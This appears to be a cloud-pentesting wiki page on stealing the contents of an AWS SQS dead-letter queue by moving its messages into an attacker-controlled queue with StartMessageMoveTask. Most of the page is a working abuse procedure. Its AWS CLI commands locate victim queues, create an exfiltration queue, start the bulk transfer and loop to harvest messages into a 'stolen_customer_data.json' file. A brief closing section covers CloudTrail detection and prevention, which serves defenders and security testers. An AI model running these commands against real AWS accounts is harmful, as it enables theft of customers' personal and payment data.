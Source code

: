 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

## Description

Abuse SQS message move tasks to steal all accumulated messages from a victim's Dead-Letter Queue (DLQ) by redirecting them to an attacker-controlled queue using `sqs:StartMessageMoveTask`. This technique exploits AWS's legitimate message recovery feature to exfiltrate sensitive data that has accumulated in DLQs over time.

## What is a Dead-Letter Queue (DLQ)?

A Dead-Letter Queue is a special SQS queue where messages are automatically sent when they fail to be processed successfully by the main application. These failed messages often contain:
- Sensitive application data that couldn't be processed
- Error details and debugging information  
- Personal Identifiable Information (PII)
- API tokens, credentials, or other secrets
- Business-critical transaction data

DLQs act as a "graveyard" for failed messages, making them valuable targets since they accumulate sensitive data over time that applications couldn't handle properly.

## Attack Scenario

**Real-world example:**
1. **E-commerce application** processes customer orders through SQS
2. **Some orders fail** (payment issues, inventory problems, etc.) and get moved to a DLQ
3. **DLQ accumulates** weeks/months of failed orders containing customer data: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **Attacker gains access** to AWS credentials with SQS permissions
5. **Attacker discovers** the DLQ contains thousands of failed orders with sensitive data
6. **Instead of trying to access individual messages** (slow and obvious), attacker uses `StartMessageMoveTask` to bulk transfer ALL messages to their own queue
7. **Attacker extracts** all historical sensitive data in one operation

## Requirements
- The source queue must be configured as a DLQ (referenced by at least one queue RedrivePolicy).
- IAM permissions (run as the compromised victim principal):
  - On DLQ (source): `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
  - On destination queue: permission to deliver messages (e.g., queue policy allowing `sqs:SendMessage` from the victim principal). For same-account destinations this is typically allowed by default.
  - If SSE-KMS is enabled: on source CMK `kms:Decrypt`, and on destination CMK `kms:GenerateDataKey`, `kms:Encrypt`.

## Impact
**Potential Impact**: Exfiltrate sensitive payloads accumulated in DLQs (failed events, PII, tokens, application payloads) at high speed using native SQS APIs. Works cross-account if the destination queue policy allows `SendMessage` from the victim principal.

## How to Abuse

- Identify the victim DLQ ARN and ensure it is actually referenced as a DLQ by some queue (any queue is fine).
- Create or choose an attacker-controlled destination queue and get its ARN.
- Start a message move task from the victim DLQ to your destination queue.
- Monitor progress or cancel if needed.

### CLI Example: Exfiltrating Customer Data from E-commerce DLQ

**Scenario**: An attacker has compromised AWS credentials and discovered that an e-commerce application uses SQS with a DLQ containing failed customer order processing attempts.

1) **Discover and examine the victim DLQ**

```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
  --attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847" 
```

2) **Create attacker-controlled destination queue**

```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```

3) **Execute the bulk message theft**

```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
  --source-arn "$SRC_ARN" \
  --destination-arn "$ATTACKER_Q_ARN" \
  --max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```

4) **Harvest the stolen sensitive data**

```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
  --attribute-names All --message-attribute-names All \
  --max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
  MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
    --max-number-of-messages 10 --wait-time-seconds 2 --output json)
  
  if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
    echo "No more messages - exfiltration complete!"
    break
  fi
  
  echo "Received batch of stolen data..."
  # Process/save the stolen customer data
  echo "$MESSAGES" >> stolen_customer_data.json
done
```

### Cross-account notes
- The destination queue must have a resource policy allowing the victim principal to `sqs:SendMessage` (and, if used, KMS grants/permissions).

## Why This Attack is Effective

1. **Legitimate AWS Feature**: Uses built-in AWS functionality, making it hard to detect as malicious
2. **Bulk Operation**: Transfers thousands of messages quickly instead of slow individual access
3. **Historical Data**: DLQs accumulate sensitive data over weeks/months
4. **Under the Radar**: Many organizations don't monitor DLQ access closely
5. **Cross-Account Capable**: Can exfiltrate to attacker's own AWS account if permissions allow

## Detection and Prevention

### Detection
Monitor CloudTrail for suspicious `StartMessageMoveTask` API calls:
```json
{
  "eventName": "StartMessageMoveTask",
  "sourceIPAddress": "suspicious-ip",
  "userIdentity": {
    "type": "IAMUser",
    "userName": "compromised-user"
  },
  "requestParameters": {
    "sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
    "destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
  }
}
```

### Prevention
1. **Least Privilege**: Restrict `sqs:StartMessageMoveTask` permissions to only necessary roles
2. **Monitor DLQs**: Set up CloudWatch alarms for unusual DLQ activity
3. **Cross-Account Policies**: Carefully review SQS queue policies allowing cross-account access
4. **Encrypt DLQs**: Use SSE-KMS with restricted key policies
5. **Regular Cleanup**: Don't let sensitive data accumulate in DLQs indefinitely

